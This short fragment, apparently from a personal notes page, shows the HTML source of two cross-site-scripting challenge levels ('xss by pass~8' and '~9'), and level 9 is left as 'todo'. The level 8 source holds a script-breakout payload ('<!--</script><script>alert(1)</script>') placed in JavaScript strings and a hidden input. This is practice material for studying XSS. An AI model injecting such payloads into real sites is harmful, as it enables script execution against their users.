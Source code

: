 ![](https://img.mi3aka.eu.org/2022/09/532b009aa32c8374d56e5f75e2ab8a62.png)

```html
<html><head><script>
var px='\<!--\<\/script\>\<script \>alert(1)\<\/script\>';
var px1624='\<!--\<\/script\>\<script \>alert(1)\<\/script\>';
</script>
give me xss by pass~8
<div style="display:none">\&lt;!--\&lt;\/</div>
<input type="hidden" value="<!--</script><script>alert(1)</script></head><body>"&gt;</body></html>
```

# xsstest9

```html
<script>
var px='';
var px1624='';
</script>
give me xss by pass~9
<div style="display:none"></div>
<div style="display:none"></div>
<!--px-->
<script>'px'</script>
```

>todo